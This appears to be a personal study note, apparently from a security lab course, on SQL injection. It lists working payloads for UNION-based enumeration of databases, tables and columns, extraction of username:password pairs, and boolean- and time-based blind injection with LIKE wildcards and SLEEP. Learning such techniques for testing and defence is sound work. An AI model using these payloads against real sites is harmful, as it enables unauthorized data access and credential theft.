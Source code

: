 ```yaml
---
creation date: January 2nd 2023
last modified date: January 2nd 2023
aliases: []
tags: #📕
---
```


Primary Categories: { Add link(s) [[]] back to related PRIMARY categories }
Secondary Categories:  { Add link(s) [[]] back to related SECONDARY categories }
Links: [[SQL]] - [[Injection Attack]]
Search Tag: #📕  

# [[SQLi]]  
___

## Description:  
Structures Query Language injection is when an attacker is able to alter the request a site is making to a database.

## Testing for possible SQLi
1. Adding either of these to the end of a URL: `'` - `"` 
	- `10.10.10.10/about/2'`
	- `10.10.10.10/products/1"`


## Example:
### In-Band SQL Injection
- For this example we have a blog that sets a unique ID for each blog post but it also sets if they are open to public.
	- `https://website.com/blog?id=1`
- When it makes its query to the database it ends up looking something like this:
	- `SELECT * from blog where id=1 and private=0 LIMIT 1;`
- We can try to bypass the restrictions by using the following URL:
	- `https://website.com/blog?id=2;--`
	- This will cause the query to end after it gets to id=2 and comment out everything after due to the **--**
- The new query to the database looks like the following:
	- `SELECT * from blog where id=2;-- and private=0 LIMIT 1;`
	- BUT since we are commenting out everything after the **--** then the query actually only runs this:
	- `SELECT * from blog where id=2;`

### Enumerating SQL Database
**General Tips**
- You can use `UNION ALL SELECT null,null,null`... Shown examples in Section 1 but can be used the same for all commands just need to find correct number of null bytes

1. When it comes to enumerating a database we can do so when its giving us an error message so to start we want to try and get an error message. We can do this by trying `''` or `""`
2. Once we see the type of message we get determines how we can search for database information.
	1. If we an actual message containing information then go to section 1 below
	2. If you see true or false then go to section 2 below
	3. If you aren't seeing either then we can test for timing as we can tell our query to sleep for x amount of time this is explained further in section 3

#### Section 1:
1. We start by trying to figure out how many columns the query needs
	- `1 UNION SELECT 1`
	- `1 UNION SELECT 1,2`
	- `1 UNION SELECT 1,2,3`
	- Keep repeating until the error message doesn't show
	- We can also use **ALL** combined with **null**
		- `1 UNION ALL SELECT null,null,null`
		- Same as above we keep adding **null** this can be used in all expressions
1. Next up if we see a normal article we want to change our initial value so that it doesn't actually reach a legit value
	- `0 UNION SELECT 1,2,3`
2. Now we want to see if we can get the database name we can do this by substituting in **database()**
	- `0 UNION SELECT 1,2,database()`
	- This should return the databases name which is used in the following steps
	- In this case we found **sqli_one**
3. Next we are trying to figure out what tables this database contains
	- `0 UNION SELECT 1,2,group_concat(table_name) FROM information_schema.tables WHERE table_schema = 'sqli_one'`
		- `0 UNION ALL SELECT group_concat(table_name),null,null FROM information_schema.tables WHERE table_schema = 'sqli_one'`
		- Alternative this uses null bytes instead so it wont have the 1,2 the spaces will be blank.
	- **group_concat()** - This method is called in order to get the returned values into one string separated by commas
	- **information_schema** - Every user of a database has access to this and it contains information about all the databases and tables the user has access to
	- In this case we found two tables **articles** & **staff_users**
4. This next step is the same as the last except that we are now digging into what does the "staff_users" table contain column wise
	- `0 UNION SELECT 1,2,group_concat(column_name) FROM information_schema.columns WHERE table_name = 'staff_users'`
		- `0 UNION ALL SELECT group_concat(column_name),null,null FROM information_schema.columns WHERE table_name = 'staff_users'`
		- Alternative this uses null bytes instead so it wont have the 1,2 the spaces will be blank.
	- In this case we found three columns in this table **id** & **password** & **username**
5. Finally we want to pull this information to show us the information contained for each of these columns
	- `0 UNION SELECT 1,2,group_concat(username,':',password SEPARATOR '<br>') FROM staff_users`
		- `0 UNION ALL SELECT null,null,group_concat(username,':',password SEPARATOR '<br>') FROM staff_users`
	- **:** - this is placed between username and password so that they will have that separating them instead of a comma to make it easier to read
	- **SEPARATOR '<`br`>'** - The "br" is an HTML tag that forces each result to be on a separate line to make reading easier

#### Section 2:
1. Firstly we want to have the query returning false so we know when we have hit something that is true within the query.
	- `admin123' UNION SELECT 1;--`
	- In this case admin123 gives us a false so the rest of the query is us testing columns
	- We keep adding to it until we are returned with a true
	- `admin123' UNION SELECT 1,2,3;--`
	- In our test example this is what ends up working
2. Now we are going to start the long process of finding the database name
	- `admin123' UNION SELECT 1,2,3 where database() like '%';--`
	- This should return a true because the **%** is a wild card
	- We continue adding letter in front of the **%** until we get the full data base name we will know we got a correct letter when we get a true result
		- i.e. `'sa%'`, `'sb%'`, `'sc%'`, `'sd%'`
		- Eventually we found that **sqli_three** worked for our testing surface
3. Now we rinse and repeat for the tables name in the database
	- `admin123' UNION SELECT 1,2,3 FROM information_schema.tables WHERE table_schema = 'sqli_three' and table_name like 'a%';--`
	- Keep replacing `'a%'` as we did in the last step until we have a completed table name
	- In this case it was **users**
4.  You guessed it here we rinse and repeat this time for the columns contained inside the users table
	- `admin123' UNION SELECT 1,2,3 FROM information_schema.COLUMNS WHERE TABLE_SCHEMA='sqli_three' and TABLE_NAME='users' and COLUMN_NAME like 'a%';`
	- Same as above replace `'a%'` until we get a completed column name since we might find multiple columns the query needs to be adjusted
	- In this case we came across **id** first so we add it to the query so we can keep checking
	- `admin123' UNION SELECT 1,2,3 FROM information_schema.COLUMNS WHERE TABLE_SCHEMA='sqli_three' and TABLE_NAME='users' and COLUMN_NAME like 'a%' and COLUMN_NAME !='id';`
		- See we are telling the query to ignore all matches that are 'id' as we know that is a column we want to know what other columns are in this table
	- We end up finding three columns in this table **id** & **password** & **username**
5. Now this step can be repeated for each column we found in order to extract the information that we can
	- `admin123' UNION SELECT 1,2,3 from users where username like 'a%';'`
	- Cycle through each letter until you get a complete username
	- In this case we found **admin**
6. We can then take the username we find and try to guess its password
	- `admin123' UNION SELECT 1,2,3 from users where username='admin' and password like 'a%';`
	- In this case we found that **3845** was the password for **admin**

#### Section 3:
1. We start of the same as Section 2 except we are adding in `SLEEP(5)` which tells the query to delay for this amount of time and will be our signal that our query was true
	- `admin123' UNION SELECT SLEEP(5);--`
	- Add columns until we get our delay
	- `admin123' UNION SELECT SLEEP(5),2;--`
2. Now do the same as Section 2 except replace the first UNION SELECT with SLEEP(5) to get our 5 second delay as our signal
3. Our test case found **sql__four**
	- `admin123' UNION SELECT SLEEP(2),2 where database() like 'sql__four%';--`
 
___

## Resources:

| Hyperlink | Info |
| --------- | ---- |


Created Date: January 2nd 2023 (06:19 pm)  
Last Modified Date: <%+tp.file.last_modified_date("MMMM Do YYYY (hh:ss a)")%>
